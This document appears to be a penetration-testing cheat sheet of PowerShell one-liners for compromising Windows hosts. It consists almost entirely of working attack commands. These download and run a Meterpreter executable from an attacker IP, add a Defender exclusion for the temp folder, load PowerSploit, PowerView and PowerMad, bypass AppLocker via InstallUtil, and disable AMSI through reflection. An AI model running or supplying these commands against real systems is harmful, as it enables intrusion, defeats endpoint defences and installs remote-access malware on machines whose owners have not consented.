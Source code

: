 # Powershell Download and Execute Meterpreter
```powershell
powershell invoke-webrequest -uri http://192.168.x.x/SI.exe -outfile C:\windows\temp\x.exe ; C:\windows\temp\x.exe
```

# Add AV Exception To A Folder
```powershell
Add-MpPreference -ExclusionPath "C:\windows\temp\"
```

# Export PowerSploit and Import
```powershell
Expand-Archive -Path C:\windows\temp\PowerSploit.zip -Destinationpath C:\windows\temp\;Import-Module C:\windows\temp\PowerSploit\powersploit.psd1;Import-Module C:\windows\temp\PowerSploit\Recon\PowerView.ps1;
```

# Export PowerMad and Import
```powershell
Expand-Archive -Path C:\windows\temp\PowerMad.zip -Destinationpath C:\windows\temp\;Import-Module C:\windows\temp\PowerMad\PowerMad.ps1;
```

# Applocker Bypass
```powershell
C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=false /U C:\\windows\\temp\\EXEHERE
```

# AMSI Bypass
```powershell
$a=[Ref].Assembly.GetTypes() ; Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}; $d=$c.GetFields('NonPublic,Static') ; Foreach($e in $d) {if ($e.Name -like "*initFailed") {$f=$e}} ; $f.SetValue($null,$true)
```
